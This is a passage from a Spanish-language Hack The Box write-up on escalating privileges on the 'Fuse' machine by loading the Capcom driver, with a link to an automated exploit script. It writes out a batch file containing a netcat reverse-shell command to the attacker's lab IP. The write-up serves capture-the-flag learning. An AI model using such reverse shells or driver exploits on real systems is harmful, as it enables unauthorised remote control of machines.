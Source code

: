 ...

Después caí en cuenta que para evitar tantas compilaciones, sencillamente hubiera podido crear un archivo `.bat` con las instrucciones del **netcat** y que el ejecutable llamara a ese archivo .__ .

Creamos el archivo:

```bash
> echo "@echo off" > retrievemagic.bat
> echo "C:\test\nc.exe 10.10.15.35 4433 -e cmd.exe" >> retrievemagic.bat
```

Y después simplemente le indicamos que siempre nos ejecute ese archivo :)

![vsexploitcaprevshell](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/fuse/vsexploitcapcomwithbatfile.png)

...

He creado un script para la subida y ejecución de los archivos... El único problema está en la obtención de la reverse Shell (no sé por qué, averigüe y averigüe pero nada). De igual forma seguiré testeando, pero lo subo por si alguno sabe como debe ser llamado `ExploitCapcom.exe` desde el script para que haga la petición correctamente. Lo demás funciona perfe, sube los archivos y carga el driver.

El problema está en la herramienta (winrm) o en la línea de ejecución del script, ya que tomando el mismo comando y usándolo dentro de la sesión de PowerShell de `evilwinrm` ta todo bien y se ejecuta correctamente.

* Acá el autopwn: [autopwn_fuse.sh](https://github.com/lanzt/blog/blob/main/assets/scripts/HTB/fuse/autopwn_fuse.sh).

...

Qué bonita maquina, curiosa e interesante forma de escalar privilegios, me gusto mucho el usar herramientas a las que no estamos acostumbrados (**Visual Studio**) para compilar y crear nuestros `.exe`... Cada vez más cariño a las máquinas **Windows** aunque sean (siento yo) más difíciles... Muchas gracias yyyyyyyyyyyyyyyyyyyy a seguir rompiendo todo (: